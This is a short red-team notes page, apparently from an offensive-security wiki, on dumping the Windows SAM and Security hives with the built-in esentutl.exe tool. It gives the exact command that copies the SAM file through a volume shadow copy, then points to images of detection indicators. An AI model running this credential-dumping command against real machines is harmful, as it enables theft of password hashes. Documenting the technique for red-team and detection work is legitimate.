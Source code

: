 ```yaml
---
layout: post
title: "dumping sam via esentutl.exe"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /credential-access-and-credential-dumping/
---
```


# Dumping SAM via esentutl.exe

## Execution

It's possible to use esentutl.exe that comes with Windows and dump SAM/Security hives like so:

```
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
```

![](<../../.gitbook/assets/image (632).png>)

## Observation

The below are some potential IOCs for detecting this technique:

![](<../../.gitbook/assets/image (633).png>)

## References

{% embed url="https://superuser.com/questions/364290/how-to-dump-the-windows-sam-file-while-the-system-is-running" %}
@spotheplanet
